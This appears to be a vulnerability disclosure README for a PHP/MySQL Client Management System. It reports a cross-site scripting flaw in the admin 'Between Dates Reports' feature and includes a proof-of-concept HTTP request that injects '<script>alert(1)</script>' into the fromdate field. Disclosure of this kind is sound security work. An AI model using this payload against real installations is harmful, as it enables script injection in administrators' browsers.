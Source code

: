 # Client-Management-System-v1.1-

A Client Management System developed using PHP and MySQL.

## Auditor

Haneen Gufran - https://www.linkedin.com/in/haneen-gufran-a8b4a6227/

## Description

### Cross-Site Scripting (XSS) Vulnerability in Admin Panel

A **Cross-Site Scripting (XSS)** vulnerability has been identified in the **Client Management System**, specifically within the **Client Between Dates Reports** feature in the admin panel.

This vulnerability occurs due to inadequate input sanitization in the `Between Dates Reports` parameter of the `clientms/admin/bwdates-reports-ds.php` endpoint. The application fails to properly validate user input, allowing attackers to inject and execute malicious scripts. When a user interacts with a crafted link, these scripts can run in the victim's browser. 

This vulnerability poses several security risks, including unauthorized script execution and potential exposure of sensitive data.
**Vulnerable Endpoint:** `(clientms/admin/bwdates-reports-ds.php)`  
**Vulnerable Parameter:** `Between Dates Reports`

## Proof of Concept (PoC)

The following HTTP request demonstrates the XSS vulnerability. This PoC illustrates how an attacker could exploit the vulnerability to execute arbitrary JavaScript in the victim's browser.

```http
POST /clientms/admin/bwdates-reports-details.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCm1Rgm4iv3NqgySI
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/clientms/admin/bwdates-reports-ds.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=p4cek0j306h831oqgio6cb0fid
Connection: keep-alive

------WebKitFormBoundaryCm1Rgm4iv3NqgySI
Content-Disposition: form-data; name="fromdate"

<script>alert(1)</script>   
------WebKitFormBoundaryCm1Rgm4iv3NqgySI
Content-Disposition: form-data; name="todate"

0093-08-22
------WebKitFormBoundaryCm1Rgm4iv3NqgySI
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryCm1Rgm4iv3NqgySI--
